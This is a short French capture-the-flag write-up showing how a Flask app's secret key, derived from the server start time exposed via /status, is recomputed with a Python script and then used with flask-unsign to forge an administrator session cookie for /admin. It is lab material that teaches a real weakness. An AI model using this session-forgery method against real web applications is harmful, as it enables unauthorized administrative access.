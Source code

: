![](Images/app.py)

`secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()`

L'app.py nous indique que la page /status est disponible, on vérifie, et on calcule la clé avec le script :

```python
import hashlib
#servertime          -    uptime  
#2024-09-21 08:53:24 - 00:03:10 = 2024-09-21 08:50:14
#server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')

server_start_str = '20240921085014'
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
print(secure_key)

```

On utilise l'outil flask-unsign ( dispo sur pip ) pour créer le nouveau cookie session flask
```
flask-unsign --sign --cookie "{'is_admin': True, 'username': 'administrator'}" --secret <secure_key>
```

Se connecter, f12 changer son cookie de session et se rendre sur /admin pour avoir le flag

En gros : 
- Utilisez `/status` pour obtenir l'uptime et l'heure actuelle du serveur.
- Calculez l'heure de démarrage du serveur.
- Générez la clé secrète (`secure_key`).
- Modifiez la session Flask pour devenir administrateur.
- Accédez à la page `/admin` pour obtenir le flag.